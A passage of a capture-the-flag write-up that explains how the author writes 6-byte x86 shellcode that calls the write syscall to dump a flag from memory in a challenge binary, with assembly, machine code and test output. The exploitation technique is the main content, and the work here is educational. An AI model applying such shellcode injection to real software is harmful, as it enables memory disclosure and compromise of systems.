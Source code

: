 So, in order to win the flag, all we need to do is find some way to print the
segment of memory pointed at by `edi`. For a while, I played around trying to
invoke one of the earlier calls to `puts` (first pushing `edi` to the stack).
This unfortunately didn’t seem to work - I just repeatedly got segfaults and
headaches.

After reading a few posts from other CTFs and low-level printing to the
terminal, I found that it could be done in very few instructions by using a
syscall to `write()`. I found a nice little guide
[here](http://asm.sourceforge.net/intro/hello.html) for a simple Hello World in
assembly that summarises how to use `write()`. The first two things that matter
are that `eax` is set to 4, to indicate we want the syscall to be a write
operation (list of other syscalls
[here](http://asm.sourceforge.net/syscall.html)), and `ebx`
is set to 1, to specify that we want to write to `stdout`. Handily. a quick look
at the registers confirms that these are already set - saving us vital
instructions.

```
[0xf7750000]> dr eax
0x00000004
[0xf7750000]> dr ebx
0x00000001
```

For the actual writing of the message, we need to place a reference to the
location of the message in `ecx` and the length of the message in `edx`. We
don’t know how long the flag is going to be. So to save time and length, we’ll
just shove a big number in there (say, `edi`). This’ll cause
a bunch of garbage to be spat out after the flag, but we’ll definitely be
printing something out at the right length.

In summary, our code needs to look something like this:

```
mov ecx,edi ; Move the message to edi
mov edx,edi ; Set edx to something BIG
int 0x80    ; Call a system interrupt
```

Looks pretty legit. Let’s throw it in to rasm2 to get our resulting machine
code.

```
-> % rasm2 'mov ecx,edi; mov edx,edi; int 0x80'
89f989facd80
```

Fantastic. All our work so far has been compressed in to a lean 6 bytes. Now to
throw it at the binary and hope we get something useful.

```
-> % WUNTEE_CHALLENGE_FLAG=testing ./6yte 89f989facd80 
Shellcode location: 0xf7720000                        
Flag location: 0xffee6c60
flag-pwn3d
ÿÿÿÿo÷T÷X(r÷o÷¤mîÿ½r÷Ét÷°lîÿDmîÿo
<-- TONS OF STUFF REDACTED -->
```
